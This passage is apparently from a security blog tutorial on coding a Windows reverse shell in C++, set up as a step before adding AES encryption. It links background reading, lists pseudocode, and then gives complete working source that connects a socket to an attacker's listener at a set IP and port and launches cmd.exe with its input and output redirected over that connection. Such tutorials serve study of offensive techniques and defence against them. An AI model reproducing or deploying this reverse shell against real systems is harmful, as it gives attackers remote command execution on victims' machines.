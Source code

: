 For a deeper understanding of cryptography, you can read a free book from a Stanford University professor Dan Boneh: [book](https://toc.cryptobook.us/)  
And what is reverse shell I wrote [here](/tutorial/2021/09/11/reverse-shells.html)  

So, let's go to code a simple reverse shell for windows, and try AES encryption in action.
The pseudo code of a windows shell is:
1. Init socket library via WSAStartup call
2. Create socket
3. Connect socket a remote host, port (attacker's host)
4. start cmd.exe

```cpp
/*
shell.cpp
author: @cocomelonc
windows reverse shell without any encryption/encoding
*/
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

WSADATA wsaData;
SOCKET wSock;
struct sockaddr_in hax;
STARTUPINFO sui;
PROCESS_INFORMATION pi;

int main(int argc, char* argv[])
{
  // listener ip, port on attacker's machine
  char *ip = "127.0.0.1";
  short port = 4444;

  // init socket lib
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  // create socket
  wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  hax.sin_family = AF_INET;
  hax.sin_port = htons(port);
  hax.sin_addr.s_addr = inet_addr(ip);

  // connect to remote host
  WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

  memset(&sui, 0, sizeof(sui));
  sui.cb = sizeof(sui);
  sui.dwFlags = STARTF_USESTDHANDLES;
  sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

  // start cmd.exe with redirected streams
  CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
  exit(0);
}

```
